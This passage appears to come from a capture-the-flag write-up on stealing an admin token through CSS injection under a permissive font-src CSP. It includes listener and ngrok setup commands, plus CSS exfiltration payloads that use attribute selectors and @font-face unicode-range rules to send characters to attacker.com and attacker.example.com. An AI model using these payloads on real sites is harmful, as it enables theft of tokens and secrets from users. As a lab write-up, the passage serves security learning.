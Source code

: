 The CSP is set, but it allow us to use font-src 

{% highlight js %}
"default-src 'self'; object-src 'none'; img-src 'self'; style-src 'self'; font-src 'self' *;"
{% endhighlight %}

Our goal is to steal the token from the admin page. Below is the HTML code where the token will be reflected.

{% highlight html %}
<div class="form-group">
<p id="approvalToken" class="d-none"> <approvalToken> </p>
{% endhighlight %}

Since the admin will always visit the page where we can control the CSS, our CSS will be rendered in the admin's browser.

# Exploitation

I setup a simple HTTP listener 

    php -S localhost:8080

Then, I set up an ngrok proxy forwarder so my machine can be accessed publicly.

    ngrok tcp 8080

There are a couple of different ways to steal web content using only CSS. If the secret content is located in an `<input>` element, you can use the CSS code below.

{% highlight css %}
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
{% endhighlight %}

Since there's CSP in configured, and we can only use `font-src`. So we can use `@font-face` and check if the unicode is in a specific range. For example.

{% highlight html %}
<style>
@font-face{
    font-family:poc;
    src: url(http://attacker.example.com/?A); /* fetched */
    unicode-range:U+0041;
}
@font-face{
    font-family:poc;
    src: url(http://attacker.example.com/?B); /* fetched too */
    unicode-range:U+0042;
}
@font-face{
    font-family:poc;
    src: url(http://attacker.example.com/?C); /* not fetched */
    unicode-range:U+0043;
}
#sensitive-information{
    font-family:poc;
}
</style>
